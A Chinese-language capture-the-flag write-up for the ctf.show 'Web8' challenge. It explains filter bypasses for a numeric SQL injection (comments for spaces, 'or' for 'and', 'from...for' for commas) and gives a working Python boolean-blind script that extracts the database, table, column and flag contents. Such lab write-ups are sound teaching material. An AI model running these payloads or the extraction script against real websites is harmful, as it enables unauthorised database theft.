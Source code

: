 ```yaml
---
title: "Web8  @WEB"
date: 2023-07-23
draft: false
author: "W"
tags: ["web","ctf.show"]
---
```


 sql注入，通过恒成立判断为数值型注入且过滤条件较多，注入类型使用布尔盲注

过滤条件:

1. 过滤空格, 可以使用括号() 或者注释/**/ 绕过
2. 过滤and, 可以使用or替代
3. 过滤union, 可以用盲注替代联合注入
4. 过滤逗号, 可以使用特殊语法绕过, 比如:substr(database(),1,1) 可以用substr(database() from 1 for 1)来代替

```sql
id=-1/**/or/**/true
```

![](/ctf.show/15/1.webp)

接下来使用盲注脚本进行脱库:

```python
import requests
url ='http://82a453a5-d9db-4c75-b233-7e4a69ab7ba8.challenge.ctf.show/index.php?id=-1/**/or/**/'
name = ''

# 循环46次( 循环次数按照返回的字符串长度自定义)
for i in range(1, 46):
    # 获取当前使用的数据库
    # payload = 'ascii(substr(database()from/**/%d/**/for/**/1))=%d'
    # 获取当前数据库的所有表
    # payload = 'ascii(substr((select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema=database())from/**/%d/**/for/**/1))=%d'
    # 获取flag表的字段
    # payload = 'ascii(substr((select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name=0x666C6167)from/**/%d/**/for/**/1))=%d'
    # 获取flag表的数据
    payload = 'ascii(substr((select/**/flag/**/from/**/flag)from/**/%d/**/for/**/1))=%d'
    count = 0
    print('正在获取第 %d 个字符' % i)
    # 截取SQL查询结果的每个字符, 并判断字符内容
    for j in range(31, 128):
        result = requests.get(url + payload % (i, j))

        if 'If' in result.text:
            name += chr(j)
            print('数据库名/表名/字段名/数据: %s' % name)
            break

        # 如果某个字符不存在,则停止程序
        count += 1
        if count >= (128 - 31):
            exit()
```

成功脱库，拿到flag

![](/ctf.show/15/2.webp)